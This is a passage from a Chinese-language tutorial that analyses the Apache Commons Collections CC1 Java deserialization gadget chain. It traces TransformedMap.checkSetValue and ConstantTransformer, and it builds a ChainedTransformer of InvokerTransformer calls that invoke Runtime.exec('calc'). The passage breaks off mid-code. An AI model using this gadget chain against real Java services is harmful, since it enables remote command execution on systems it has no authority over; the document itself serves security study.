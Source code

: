       // 跟进去首先走MapEntry类的setValue()
      public Object setValue(Object value) {
          // 这里在跟进去
          value = parent.checkSetValue(value);
          return entry.setValue(value);
      }
      // 来到TransformedMap的checkSetValue
      protected Object checkSetValue(Object value) {		// idea右边可以发现value的值为：AnnotationTypeMismatchExceptionProxy@668
      	// 但是呢我们想要执行命令这个value值应该是Runtime.class，
          // 所有问题他就是出现在这里
          
          return valueTransformer.transform(value);
          // valueTransformer.transform(value) 其实是等价于 ChainedTransformer.transform(Runtime.class);
      }
      ```

30.   **这个时候就是要想办法把这个Runtime.class弄过去，直接搞肯定是不行，这个时候又要找找有没有能利用的类，这个时候我们开头能看到的ConstantTransformer类就可以用到了**

      ```java
      public class ConstantTransformer implements Transformer, Serializable {
          // 可以通过构造方法把Runtime放进去
      	public ConstantTransformer(Object constantToReturn) {
              super();
              iConstant = constantToReturn;
          }
          
          // 然后这个transform方法是不管input传入什么
          // 它始终就会返回Runtime，刚好可以解决Runtime的参数问题
          public Object transform(Object input) {
              return iConstant;
          }
      }
      ```

31.   ==那么最终的调用链如下==

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              // 提前将Runtime放进去
              new ConstantTransformer(Runtime.class),
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
          
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("value","aaa");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      